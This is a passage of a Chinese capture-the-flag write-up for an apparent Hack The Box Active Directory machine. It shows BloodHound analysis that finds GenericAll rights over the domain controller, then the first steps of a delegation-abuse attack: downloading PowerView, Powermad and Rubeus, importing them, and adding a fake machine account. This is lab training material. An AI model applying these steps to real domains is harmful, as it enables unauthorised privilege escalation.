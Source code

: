 账号和密码都是neo4j

![在这里插入图片描述](https://img-blog.csdnimg.cn/6a4a20680e784673befcf437424507c3.png)

连接上之后需要重新设置密码

![在这里插入图片描述](https://img-blog.csdnimg.cn/372d05207c1e4d0c8fba32426152fa95.png)

设置好后在终端输入bloodhound启动工具，账号和密码是刚刚设置的那些

![在这里插入图片描述](https://img-blog.csdnimg.cn/b9c0b57f8c80445cb02574205f2378ac.png)

点击登录后拖入刚刚从机子上下载的zip文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/d068c2c8880a485cbb8c17e835b10880.png)


如果导入后没有显示，就重新启动一下程序

![在这里插入图片描述](https://img-blog.csdnimg.cn/f77afed7b6534989b29a4f7197a05de0.png)


点击Shortest Path to Unconstrained Delegation Systems后，我们能发现很多东西


![在这里插入图片描述](https://img-blog.csdnimg.cn/f5643482f4994c7dbd3f9146a7180ece.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/c023cae04c6a476992b07a113dfd484c.png)

"SHARED SUPPORT ACCOUNTS@SUPPORT.HTB"组对“DC.SUPPORT.HTB”具有“GenericAll”权限，我们可以访问的support用户是“SHARED SUPPORT ACCOUNTS@SUPPORT.HTB”组的成员，因此，我们给其他对象授予“DC.SUPPORT.HTB”的“GenericAll”权限，可以利用这个方法来提权

## 票证伪造
下载这两个ps脚本，然后上传到机子上
```
https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1
https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe
```
上传文件和导入模块：
```
upload powerview.ps1
Import-Module .\powerview.ps1
upload Powermad.ps1
Import-Module .\Powermad.ps1
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/3cdf36c8c1544a3ea1af54347ce315dd.png)

然后设置变量
```
Set-Variable -Name "FakePC" -Value "FAKE01"
Set-Variable -Name "targetComputer" -Value "DC"
```

然后将新的计算机对象添加到AD
```
New-MachineAccount -MachineAccount (Get-Variable -Name "FakePC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
